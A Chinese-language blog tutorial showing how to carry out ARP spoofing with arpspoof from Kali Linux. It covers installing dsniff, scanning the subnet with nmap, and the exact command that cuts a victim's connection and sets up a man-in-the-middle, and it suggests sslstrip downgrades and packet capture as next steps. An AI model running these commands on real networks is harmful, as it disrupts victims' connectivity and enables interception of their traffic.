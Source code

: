 ```yaml
---
title: 'Kali Linux 進行局域網 ARP Spoofing'
date: '2024/1/18'
lastmod: '2024/1/18'
tags: [ kali , 網路]
draft: false
summary: '本篇僅為**資訊安全相關課程或學術研究用途**，示範操在合法授權的環境中，對局域網進行斷網攻擊，嚴禁應用於未經授權的網路環境，以免觸犯法律。'
images: ['https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcS_Ks-mHt4ZuYAi53cxnwhStGy0wZQpz_XNuA&s']
authors: ['default']
layout: PostLayout
---
```


# Kali Linux 進行局域網 ARP Spoofing 

本篇僅為**資訊安全相關課程或學術研究用途**，示範操在合法授權的環境中，對局域網進行斷網攻擊，嚴禁應用於未經授權的網路環境，以免觸犯法律。

## 🧠 一、什麼是 ARP Spoofing？

ARP（Address Resolution Protocol）是路由器對 IP 位址進行廣播來找到 MAC 位址的協定。  
ARP spoofing 是一種攻擊方式，藉由向局域網中的設備發送假的 ARP 對應資料，讓路由器誤以為攻擊人的 MAC 位址是受害者的 MAC 位址，進而達成「中間人攻擊（MITM）」。

### 以下為 ARP Spoofing 架構圖：
![ARP Spoofing](https://ppt.cc/fP1ksx@.png)




## ⚙️ 二、使用 `arpspoof` 前的準備工作

#### 啟動kali前這裡一定要先做：
(1) 設定虛擬機網卡(以VMware為例)
![設定網路](https://ppt.cc/fSgKkx@.png)

### 1. 開啟 Kali Linux  
確認 Kali 裝置與目標設備在同一個局域網中（子網也要相同）。  
例如：  
✔️攻擊者IP為**192.168.0.15**，受害者IP為**192.168.0.16**  
❌攻擊者IP為**192.168.1.15**，受害者IP為**192.168.0.16**  

### 2. 安裝 `dsniff` 套件  
`arpspoof` 是 `dsniff` 套件的一部分：

```bash
sudo apt update
sudo apt install dsniff
```

## 🔍 三、查找網段資訊與目標設備
1. 查看本機 IP 與閘道： 
```
ip a
```

2. 使用 nmap 掃描網段： 可以找出所有網段的設備IP
```
nmap 192.168.0.0-255
```

## 🧪 四、使用 arpspoof 執行攻擊

- **以下為指令解釋**：
```
sudo arpspoof -i <哪一張網卡> -t <受害者ip> -r <路由器ip>
```

- **操作舉例：**  
攻擊者ip：**192.168.0.100**  
受害者ip：**192.168.0.12**  
路由器ip：**192.168.0.1**  
網卡名稱：**eth0**
```
sudo arpspoof -i eth0 -t 192.168.0.12 -r 192.168.0.1
```

## 🛠 五、即可發現成功使受害者設備無法上網

#### 接下來成功建立中間人後可以：

- 使用 Wireshark 擷取 HTTP 封包

- 搭配 sslstrip 對 HTTPS 進行降級攻擊（進階）

- 搭配 Burp Suite 做流量分析與重送請求


####  ⚠️ 再次溫馨提醒：本篇僅供學術用途，請勿侵害他人，若違反本篇一概不負相關法律責任！！